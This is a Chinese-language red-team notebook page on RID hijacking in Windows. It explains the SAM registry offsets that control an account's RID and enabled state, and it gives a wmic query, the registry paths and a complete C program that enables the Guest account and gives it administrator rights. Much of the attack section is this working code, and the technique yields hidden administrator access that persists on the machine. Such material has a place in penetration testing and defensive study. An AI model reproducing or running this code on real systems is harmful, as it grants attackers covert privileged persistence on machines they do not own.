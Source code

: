 ```yaml
---
description: RID-hijack
---
```


# RID劫持

## RID Hijack简介

在windows系统内，使用rid区分用户组和用户账户，rid是安全标识符sid的一部分，每创建一个组或一个用户，都会往后递增一位，通常administrator的rid始终为500，而标准用户通常以1001开始。

![](../.gitbook/assets/image%20%2834%29.png)

 [Sebastian Castr](https://twitter.com/r4wd3r)发现可以通过修改注册表来劫持有效账户的RID，使guest成为管理员，同时进行活动的话会以原本的身份记录在日志内。

## 手工操作

windows内置访客账户guest的rid信息储存在一下键值对内。

```text
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Guest
```

![0x1f5&#x8F6C;&#x6362;&#x6210;&#x5341;&#x8FDB;&#x5236;501](../.gitbook/assets/image%20%2822%29.png)

也可以通过wmic查询。

```text
wmic useraccount where (name='Guest') get name,sid
```

![](../.gitbook/assets/image%20%2828%29.png)

通过RID在如下键值对内寻找账户的相关信息。

```text
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F5
```

找到如下注册表项的键值对“F",此键值对内存储着标识账户RID和是否开启的数值。

PS:需要system权限。

![](../.gitbook/assets/image%20%2868%29.png)

在"F"键值对偏移0x30的位置存储着RID，修改为0xF401\(500\)即可劫持RID。

偏移0x38确定账户是否启用\(0X1502-&gt;关闭,0x1402-&gt;启用\)。

更改这些值将启用启用来宾帐户（有时情况下一部分），并劫持提升的RID（本地管理员）。来宾帐户将具有管理员权限，但是该帐户仍然不会出现在本地管理员组中。

## 代码实现

由于powershell和bat的脚本在互联网上可以轻易找到，这里只给出c的版本。

在metasploit和empire内也有比较成熟的模块。

```text
#include <Windows.h>
#include <stdio.h>


int  main()
{
	HKEY hKey = NULL;
	PCHAR KeyAddr = NULL;
	DWORD KeySize;
	DWORD KeyType;
	BYTE Buffer[0x50] = { 0 };
	KeyAddr = (PCHAR)"SAM\\SAM\\Domains\\Account\\Users\\000001F5";

	RegOpenKeyExA(HKEY_LOCAL_MACHINE, KeyAddr, 0, KEY_ALL_ACCESS, &hKey);
	RegQueryValueExA(hKey, "F", NULL, &KeyType, (LPBYTE)&Buffer, &KeySize);

	Buffer[0x30] = (BYTE)0xf4; //hijack rid
	Buffer[0x38] = (BYTE)0x14; //enable guest
	
	RegSetValueExA(hKey, "F",NULL, KeyType, Buffer, KeySize);
	RegCloseKey(hKey);
	return 0;
}

```

## LINKS

{% embed url="https://pentestlab.blog/category/red-team/persistence/page/1/" %}

{% embed url="https://xz.aliyun.com/t/2998" %}




